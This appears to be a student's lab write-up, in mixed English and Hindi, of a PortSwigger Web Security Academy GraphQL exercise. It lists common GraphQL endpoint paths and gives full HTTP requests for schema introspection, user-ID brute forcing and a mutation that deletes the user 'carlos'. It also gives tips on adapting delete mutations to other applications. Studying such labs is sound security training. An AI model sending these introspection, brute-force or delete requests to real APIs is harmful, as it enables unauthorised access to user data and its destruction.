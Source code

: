 
Some GraphQL end points 

/graphql<br/>
/api<br/>
/api/graphql<br/>
/graphql/api<br/>
/graphql/graphql<br/>
/graphql/v1<br/>
/graphql/inventory-service<br/>
/graphql-server<br/>
/gql<br/>

------------------------------------------------------------------------------------------------------------------------------------------------------

GET /$Brute-force-end-point$ HTTP/1.1<br/>
Host: 0a3e001c032866a6819185b600420085.web-security-academy.net<br/>
Cookie: session=FOS3Dp3EidWsLz8QogdVn7bWbY3CoMzv<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: https://0a3e001c032866a6819185b600420085.web-security-academy.net/product?productId=2<br/>
Upgrade-Insecure-Requests: 1<br/>
Sec-Fetch-Dest: document<br/>
Sec-Fetch-Mode: navigate<br/>
Sec-Fetch-Site: same-origin<br/>
Sec-Fetch-User: ?1<br/>
Te: trailers<br/>
Connection: close<br/>


![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/747ec4fb-9288-4be4-bfd6-f46f6f26133b)
<br/><br/>

I Got Resonse {  "Query not present"  }<br/>

Means we can use Query <br/><br/>

GET /api?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D HTTP/1.1<br/>
Host: 0a3e001c032866a6819185b600420085.web-security-academy.net<br/>
Cookie: session=FOS3Dp3EidWsLz8QogdVn7bWbY3CoMzv<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: https://0a3e001c032866a6819185b600420085.web-security-academy.net/product?productId=2<br/>
Upgrade-Insecure-Requests: 1<br/>
Sec-Fetch-Dest: document<br/>
Sec-Fetch-Mode: navigate<br/>
Sec-Fetch-Site: same-origin<br/>
Sec-Fetch-User: ?1<br/>
Te: trailers<br/>
Connection: close<br/><br/>

**__schema is very important .. Ye Root type ke under hota hai GraphQL ke under jisse hum overall schema ki information ko retrive kr sakte hai<br/>**

And our payload is ( ?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D )<br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/04576f45-b9da-43dd-b31e-37af7b7b716a)
<br/><br/>

Try to retrive all user name first<br/>

GET /api?query={getUser(id:1){id%0d%0ausername}} HTTP/1.1<br/>
Host: 0a280037032646c680eafde600ae00bd.web-security-academy.net<br/>
Cookie: session=ZCcMdF977MB8RewqXC048LQamGIXA3Wu<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: https://0a280037032646c680eafde600ae00bd.web-security-academy.net/my-account?id=wiener<br/>
Upgrade-Insecure-Requests: 1<br/>
Sec-Fetch-Dest: document<br/>
Sec-Fetch-Mode: navigate<br/>
Sec-Fetch-Site: same-origin<br/>
Sec-Fetch-User: ?1<br/>
Te: trailers<br/>
Connection: close<br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/45c203cf-b074-49ed-9ffe-470a1bae5192)<br/>

**Now we can try brute force in id perametrs**<br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/849a7db9-8f3c-4695-8167-39582ab67aab)<br/>


![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/fbdb5037-7f74-406d-9f0a-49af4c41fd9b)<br/>


**After get some information we can use mutation type**<br/>

**mutation ka use krke user data ko delete update or create kr sakta hai or in this lab we need to delete user carlos to hum query keyword ke sath mutation ka use krenge and user ko delete krenege**<br/><br/>


GET /api?query=mutation{deleteOrganizationUser(input:{id:3}){user{id}}} HTTP/1.1<br/>
Host: 0a3e001c032866a6819185b600420085.web-security-academy.net<br/>
Cookie: session=FOS3Dp3EidWsLz8QogdVn7bWbY3CoMzv<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: https://0a3e001c032866a6819185b600420085.web-security-academy.net/product?productId=2<br/>
Upgrade-Insecure-Requests: 1<br/>
Sec-Fetch-Dest: document<br/>
Sec-Fetch-Mode: navigate<br/>
Sec-Fetch-Site: same-origin<br/>
Sec-Fetch-User: ?1<br/>
Te: trailers<br/>
Connection: close<br/>


![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/fdf0d043-24f5-4749-9b52-af5b3561eae3)<br/>

**yaha per humne id:3 use kiya hai coz carlos ka id 3 tha and mutation ka use krke humne carlos ko delete kr diya**<br/>

#Note mutation ki query diffrent ho sakti hai application to application<br/>

like kuch example<br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/05c14c40-b9a6-46ee-9093-7927e89800b7)<br/><br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/9c71bfab-cc62-4579-8e58-daf9924839c3)<br/><br/>

![image](https://github.com/Jeetu-study/GraphQL/assets/132050251/50111114-3644-4b10-96ca-3c7fd95bbf2d)<br/><br/>

--------------------------------------------------------------------------------------------------------------------------------------------------

#Means jaha per humne api?query=mutation{deleteOrganizationUser(input:{id:3}){user{id}}} ka use kiya hai 
waha per **deleteOrganizationUser* ki jagaha deleteEntity , removeProduct , deleteUser , kuch bhi ho sakta hai or id bhi diffrent
ho sakti hai , May be ID ki jagha kuch or ho ya kuch bhi na ho , ye application to application check krna hoga,
yaha per hum delete ka use kr rahe hai but **mutation** ka use krke aap delete ke sath update create bhi kr sakte hai or usi hisab se query ko
modify krke request send krna hoga






